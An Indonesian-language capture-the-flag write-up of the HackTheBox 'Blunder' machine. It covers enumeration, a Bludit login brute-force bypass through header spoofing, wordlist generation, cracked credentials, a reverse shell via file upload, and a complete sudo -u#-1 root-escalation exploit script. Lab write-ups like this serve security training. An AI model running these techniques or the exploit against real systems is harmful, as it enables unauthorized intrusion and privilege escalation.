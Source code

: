# Blunder (Linux)

![Image](img/1.png)

HackTheBox Blunder Linux, ini adalah box yang menarik karena penulis dan teman teman sempat melakukan balapan untuk mencoba menjadi yang tercepat dalam solving box nya. Penulis berhasil menyelesaikan pertama diantara 4 teman-teman dalam waktu 4,5 jam #notsobad

Dari tampilan awalnya sepertinya box ini akan berat di CVE dan real-life

### Enumeration

Mari kita mulai enumeration menggunakan nmap

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-28 07:12 EDT
Nmap scan report for 10.10.10.191
Host is up (0.031s latency).
Not shown: 65533 filtered ports
PORT   STATE  SERVICE VERSION
21/tcp closed ftp
80/tcp open   http    Apache httpd 2.4.41 ((Ubuntu))
Device type: firewall
Running (JUST GUESSING): Fortinet embedded (87%)
OS CPE: cpe:/h:fortinet:fortigate_100d
Aggressive OS guesses: Fortinet FortiGate 100D firewall (87%)
No exact OS matches for host (test conditions non-ideal).

TRACEROUTE (using port 21/tcp)
HOP RTT    ADDRESS
1   ... 30

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 130.84 seconds
```

Kita bisa melihat bahwa port yang terbuka hanya HTTP, yang berarti web servicenya. Mari kita kunjungi, sambil kita jalankan dirbuster

Tampilan webnya tidak menyediakan banyak

![Image](img/6.png)

Namun dari dirbuster kita tahu bahwa ada directory admin yang ternyata sebuah login panel, dan todo.txt yang berisi potential username 'fergus'

![Image](img/2.png)

Penulis kemudian mencoba untuk melakukan bruteforce login panelnya menggunakan python script, namun ternyata Bludit memiliki fitur anti bruteforcing dengan menyimpan IP attempted login pada file log. Namun juga ada bypass nya dikarenakan IP yang disimpan disertakan dalam header request, sehingga merubah headernya setiap 10 request bisa mem-bypass fitur anti bruteforcenya.

[https://github.com/rastating/rastating.github.io/blob/master/_posts/2019-10-05-bludit-brute-force-mitigation-bypass.md](https://github.com/rastating/rastating.github.io/blob/master/_posts/2019-10-05-bludit-brute-force-mitigation-bypass.md)

Setelah melakukan bruteforcing yang lama ternyata rockyou tidak dapat dengan mudah mengeluarkan hasil bruteforce yang diinginkan, maka penulis memutuskan untuk membuat wordlist sendiri menggunakan tools yang bernama cewl.

[https://tools.kali.org/password-attacks/cewl](https://tools.kali.org/password-attacks/cewl)

```
cewl -d 2 -m5 http://10.10.10.191 > wordlist.txt
```

Command diatas akan membuat wordlist dengan crawling dan scraping, kata yang memiliki huruf minimal 5 panjangnya akan dimasukkan kedalam wordlist.

Menggunakan script bypass IP restriction Bludit dibawah ini penulis berhasil mendapatkan password combination yang benar untuk user fergus

![Image](img/3.png)

Ditemukan password yang digunakan untuk login

fergus:RolandDeschain

Karena kita sudah bisa login ke admin panel sebagai fergus, kita bisa melakukan file upload dan mendapatkan reverse shell. Penulis menggunakan msfconsole untuk membuka session.

# Root

Setelah melakukan enumerasi penulis melihat ada user kedua yang bernama hugo, dan setelah lebih banyak enumerasi lagi penulis berhasil menemukan hashed password login sebagai hugo di folder Bludit 3.10.x 

![Image](img/4.png)

Dikarenakan password di hash, maka penulis akan melakukan cracking menggunakan john the ripper

hugo:Password120

Melakukan sudo -l dengan user hugo penulis menemukan

![Image](img/5.png)

Menggunakan exploit sudo untuk spawn /bin/bash as root 

https://www.exploit-db.com/exploits/47502

```
#!/usr/bin/python3
import os

#Get current username
username = input("Enter current username :")

#check which binary the user can run with sudo
os.system("sudo -l > priv")
os.system("cat priv | grep 'ALL' | cut -d ')' -f 2 > binary")

binary_file = open("binary")

binary= binary_file.read()

#execute sudo exploit
print("Lets hope it works")

os.system("sudo -u#-1 "+ binary)
```

Run exploitnya dengan python dan kita mendapatkan root

# Rooted !
